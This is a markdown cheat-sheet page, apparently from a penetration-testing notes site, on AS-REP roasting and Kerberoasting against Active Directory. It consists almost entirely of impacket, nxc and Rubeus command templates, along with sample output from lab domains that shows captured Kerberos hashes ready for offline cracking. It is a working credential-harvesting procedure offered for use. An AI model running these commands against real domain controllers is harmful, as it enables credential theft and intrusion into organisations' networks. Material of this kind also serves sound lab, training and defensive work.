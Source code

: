 ```yaml
---
title: "Kerberoasting"
date: 2024-7-6
tags: ["Kerberos", "Impacket", "Kerberoasting", "Asreproast", "Rubeus", "Domain Controller", "Active Directory", "Windows", "GetNPUsers"]
---
```


### AS_REP Roasting

{{< tab set1 tab1 >}}Impacket{{< /tab >}}
{{< tab set1 tab2 >}}nxc{{< /tab >}}
{{< tabcontent set1 tab1 >}}

```console
# Multiple valid usernames
impacket-GetNPUsers <DOMAIN>/ -usersfile <USERS_FILE> -no-pass -dc-ip <DC_IP>
```

```console {class="sample-code"}
$ impacket-GetNPUsers ABSOLUTE.HTB/ -usersfile valid_usernames.txt -no-pass -dc-ip DC.ABSOLUTE.HTB
Impacket v0.13.0.dev0+20240916.171021.65b774de - Copyright Fortra, LLC and its affiliated companies 

[-] User j.roberts doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User m.chaffrey doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User s.osvald doesn't have UF_DONT_REQUIRE_PREAUTH set
$krb5asrep$23$d.klay@ABSOLUTE.HTB:85554d22d5c220d8a757ce9913d207ea$7288c91ca ...[SNIP]... 0e09c5d9d1
[-] User j.robinson doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User n.smith doesn't have UF_DONT_REQUIRE_PREAUTH set
```

```console
# Single user without creds
impacket-GetNPUsers -no-pass -dc-ip <DC_IP> '<DOMAIN>/<USER>'
```

```console {class="sample-code"}
$ impacket-GetNPUsers -no-pass -dc-ip 10.10.11.181 ABSOLUTE.HTB/d.klay
Impacket v0.13.0.dev0+20240916.171021.65b774de - Copyright Fortra, LLC and its affiliated companies 

[*] Getting TGT for d.klay
$krb5asrep$23$d.klay@ABSOLUTE.HTB:97c9a3ec7b550c29bc52f0c176738e73$ab25b07d4 ...[SNIP]... 78a8e52bb6
```

{{< /tabcontent >}}
{{< tabcontent set1 tab2 >}}

```console
# Multiple valid usernames
nxc ldap <DC> -u <USERS_FILE> -p '' --asreproast as_rep_hashes.txt
```

```console {class="sample-code"}
$ nxc ldap 10.10.11.181 -u valid_usernames.txt -p '' --asreproast as_rep_hashes.txt
SMB         10.10.11.181    445    DC               [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC) (domain:absolute.htb) (signing:True) (SMBv1:False)
LDAP        10.10.11.181    445    DC               $krb5asrep$23$d.klay@ABSOLUTE.HTB:5a082acfc8 ...[SNIP]... 06ddb9be16
```

{{< /tabcontent >}}

---

### Kerberoasting (From Linux)

{{< tab set2 tab1 >}}Impacket{{< /tab >}}
{{< tab set2 tab2 >}}nxc{{< /tab >}}
{{< tabcontent set2 tab1 >}}

```console
sudo ntpdate -s <DC> && impacket-GetUserSPNs -request '<DOMAIN>/<USER>:<PASSWORD>' -k -dc-host <DC>
```

```console {class="sample-code"}
$ sudo ntpdate -s DC1.scrm.local && impacket-GetUserSPNs -request 'scrm.local/ksimpson:ksimpson' -k -dc-host DC1.scrm.local
Impacket v0.13.0.dev0+20240916.171021.65b774de - Copyright Fortra, LLC and its affiliated companies 

[-] CCache file is not found. Skipping...
[-] CCache file is not found. Skipping...
ServicePrincipalName          Name    MemberOf  PasswordLastSet             LastLogon                   Delegation 
----------------------------  ------  --------  --------------------------  --------------------------  ----------
MSSQLSvc/dc1.scrm.local:1433  sqlsvc            2021-11-04 00:32:02.351452  2024-09-24 15:53:26.496449             
MSSQLSvc/dc1.scrm.local       sqlsvc            2021-11-04 00:32:02.351452  2024-09-24 15:53:26.496449             

[-] CCache file is not found. Skipping...
$krb5tgs$23$*sqlsvc$SCRM.LOCAL$scrm.local/sqlsvc*$b62984d5b ...[SNIP]... f4c2161493
```

<small>*Note: Times skew have to be within 5 minutes in kerberos*</small>

```console
# Kerberoasting without cred
sudo ntpdate -s <DC> && impacket-GetUserSPNs -no-preauth <USER_WITH_DONT_REQUIRE_PREAUTH> -usersfile <USERS_FILE> -dc-host <DC> <DOMAIN>/
```

```console {class="sample-code"}
$ sudo ntpdate -s dc01.rebound.htb && impacket-GetUserSPNs -no-preauth jjones -usersfile valid_usernames.txt -dc-host 10.10.11.231 rebound.htb/
Impacket v0.13.0.dev0+20240916.171021.65b774de - Copyright Fortra, LLC and its affiliated companies 

[-] Principal: Administrator - Kerberos SessionError: KDC_ERR_S_PRINCIPAL_UNKNOWN(Server not found in Kerberos database)
[-] Principal: Guest - Kerberos SessionError: KDC_ERR_S_PRINCIPAL_UNKNOWN(Server not found in Kerberos database)
$krb5tgs$18$krbtgt$REBOUND.HTB$*krbtgt*$d989a5d49 ...[SNIP]... 962d2aa2f2
...[SNIP]...
```

{{< /tabcontent >}}
{{< tabcontent set2 tab2 >}}

```console
sudo ntpdate -s <DC> && nxc ldap <DC_IP> -u '<USER>' -p '<PASSWORD>' -k --kerberoasting kerberoast_hashes.txt
```

```console {class="sample-code"}
$ sudo ntpdate -s DC1.scrm.local && nxc ldap 10.10.11.168 -u ksimpson -p 'ksimpson' -k --kerberoasting kerberoast_hashes.txt
LDAP        10.10.11.168    389    DC1.scrm.local   [*]  x64 (name:DC1.scrm.local) (domain:scrm.local) (signing:True) (SMBv1:False)
LDAPS       10.10.11.168    636    DC1.scrm.local   [+] scrm.local\ksimpson 
LDAPS       10.10.11.168    636    DC1.scrm.local   Bypassing disabled account krbtgt 
LDAPS       10.10.11.168    636    DC1.scrm.local   [*] Total of records returned 2
LDAPS       10.10.11.168    636    DC1.scrm.local   sAMAccountName: sqlsvc memberOf:  pwdLastSet: 2021-11-04 00:32:02.351452 lastLogon:2024-09-24 15:53:26.496449
LDAPS       10.10.11.168    636    DC1.scrm.local   $krb5tgs$23$*sqlsvc$SCRM.LOCAL$scrm.local/sqlsvc*$335aeba3b ...[SNIP]... 9718487474
```

```console
# With socks5 proxy
proxychains4 -q nxc ldap <DC_IP> -u '<USER>' -p '<PASSWORD>' -k --kerberoasting kerberoast_hashes.txt --dns-tcp --dns-server <DC_IP>
```

{{< /tabcontent >}}

### Kerberoasting (From Windows)

{{< tab set3 tab1 >}}rubeus{{< /tab >}}
{{< tabcontent set3 tab1 >}}

```console
.\rubeus.exe kerberoast /creduser:<DOMAIN>\<USER> /credpassword:'<PASSWORD>'
```

{{< /tabcontent >}}
